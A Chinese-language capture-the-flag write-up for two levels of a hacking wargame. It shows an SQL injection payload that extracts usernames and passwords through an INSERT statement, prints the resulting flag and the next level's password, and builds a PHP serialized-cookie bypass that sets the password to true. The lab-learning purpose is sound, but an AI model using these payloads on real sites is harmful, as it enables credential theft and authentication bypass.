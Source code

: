 > You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the > right syntax to use near ''123'')' at line 6

这里SQL语句还原应该是 `'$text')` ，这里应当是 `insert` 语句。

```
insert into tablename(autor, title, text) values('$autor', '$title', '$text');
```
测试，

```
autor=123&title=123&text=123'),('4','5','6&post=Submit+Query
```
成功。

根据题目要求，`Get username and password of any user. Tablename: level9_users` 。

```
autor=123&title=123&text=123'),((select username from level9_users limit 0,1),(select password from level9_users limit 0,1),'6&post=Submit+Query
```

> Autor: TheBlueFlower
> Title: this_oassword_is_SEC//Ure.promised!
> 6 



> You can raise your wechall.net score with this flag: 84ec870f1ac294508400e30d8a26a679
> The password for the next level is: get_post_cookie_head__kittens_eating_all_my_bread

## level 10


点击 `Login` 得到登陆用户为 `Monkey`。
```
login=YToyOntzOjg6InVzZXJuYW1lIjtzOjY6Ik1vbmtleSI7czo4OiJwYXNzd29yZCI7czoxMjoiMDgxNXBhc3N3b3JkIjt9
```

注入`'` 到 `login`参数，得到正常结果，但是将 `login` 原参数删除一些字符后，得到报错结果。

> Notice: unserialize(): Error at offset 68 of 68 bytes in /var/www/html/hackit/level10.php on line 34

`login`的值为字母和数字的组合，应该是 `Base64` 加密后的结果，用 `base64` 解密，可得：


	a:2:{s:8:"username";s:6:"Monkey";s:8:"password";s:12:"0815password";}

在用PHP 的  `unserialize` 反序列化得到：

	array (
	  'username' => 'Monkey',
	  'password' => '0815password',
	)

由于是 `array` 数据， 可以将 `password` 设置为 `true`， 绕过密码判断。

```
array (
  'username' => 'TheMaster',
  'password' => true,
)
```
